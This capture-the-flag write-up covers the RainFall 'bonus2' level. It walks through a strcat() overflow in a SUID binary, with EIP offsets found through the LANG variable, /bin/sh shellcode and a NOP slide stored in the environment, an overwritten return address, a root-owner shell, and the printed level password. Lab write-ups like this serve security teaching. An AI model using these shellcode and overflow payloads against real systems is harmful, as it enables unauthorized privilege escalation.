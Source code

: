 # Level bonus 2

## Vulnerability

strcat() heap overflow, return-to-libc

## Context

We find a binary with owner ```bonus3``` and SUID.
```
bonus2@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```
When run with 0 or 1 arguments, it does nothing. Run with 2 arguments it prints "Hello " + first argument.
```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 wait
bonus2@RainFall:~$ ./bonus2 wait what?
Hello wait
```

## Solution

In summary, the program expects to be given a username, then prints "Hello <username>".

Investigating with gdb we find ```main()``` initializes a 72 byte buffer, copies 40 bytes from argv[1], then 32 bytes from argv[2]. It then checks the language env variable, setting global variable ```lang```: English (default) = 0, Finnish = 1, Dutch = 2.

```main``` then calls function ```greetuser()``` which copies "Hello " (in the appropriate language) into a 64 byte buffer, then concatenates the given username string. Finally ```puts``` prints the buffer "Hello <username>".

It looks like when using ```strcat()``` to concaternate the 72 byte ```main()``` buffer to the 64 byte ```greetuser()``` buffer, it could overflow. Lets try to break it.
```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 32')
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
```

### Find EIP offset

Great, lets see if we can overwrite the EIP. Using the following example with [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we find our overflow does not reach the EIP.
```
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
```
Perhaps if we change language, so have a longer greeting message, our overflow will reach the EIP. In Finnish we find our EIP offset is 18.
```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ env | grep "LANG"
LANG=fi
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
```
In Dutch we find our EIP offset is 23.
```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
```

### Store exploit in env

Next: overwrite EIP with what address? Where we should store our malicious code? We export our malicious code into the ```env``` following the ```export LANG=fi``` (Let's be Finnish!).

First a NOP slide ```'\x90' * 100```, then our [malicious shell code which calls system, opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) same as previous levels. ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80```. 

Putting that together:
```
bonus2@RainFall:~$ export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

### Find exploit address

Find the address of NOP slide in the env language variable with gdb. Create a break point at ```getenv("LANG")```, run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) break *main+125
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe79:	 "LANG=fi\220\220...
```
We find our exploit stored after the language var starting at ```0xbffffe79```. We need to add to this address to land somewhere on our NOP slide, lets add 42 giving us the target address ```0xbffffea3```.

### Build overflow string

So, we build our first argument:
* 40 bytes padding - ```$(python -c 'print "A" * 40')```

And our second argument:
1. 18 bytes padding (23 if Dutch) - ```$(python -c 'print "B" * 18')```
2. address on NOP slide in env language variable - ```\xa3\xfe\xff\xbf```

```
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Recreate Exploited Binary

As user ```bonus3```, in ```/tmp```, create and compile ```bonus2_source.c```
```
bonus3@RainFall:/tmp$ gcc bonus2_source.c -fno-stack-protector -z execstack -o bonus2_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus3@RainFall:/tmp$ chmod u+s bonus2_source; chmod +wx ~; mv bonus2_source ~
```

Exit back to user ```bonus2```, then provide our exploit as argument to the source. Luckily, the env language var address is similar, so the return address doesn't need updating.
```
bonus3@RainFall:/tmp$ exit
exit
bonus2@RainFall:~$ /home/user/bonus3/bonus2_source $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xa3\xfe\xff\xbf"')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
```

To find the new env language variable with gdb. Find the addess of ```getenv("LANG")``` in ```main``` and create a break point, run and examine the memory.
```
bonus2@RainFall:~$ gdb -q bonus2
...
(gdb) disas main
...
   0x080485d2 <+131>:	call   0x80483a0 <getenv@plt>
...
(gdb) break *main+131
...
(gdb) run first_name second_name
...
(gdb) x/19s *((char**)environ)
...
0xbffffe72:	 "LANG=fi\220\220...
```
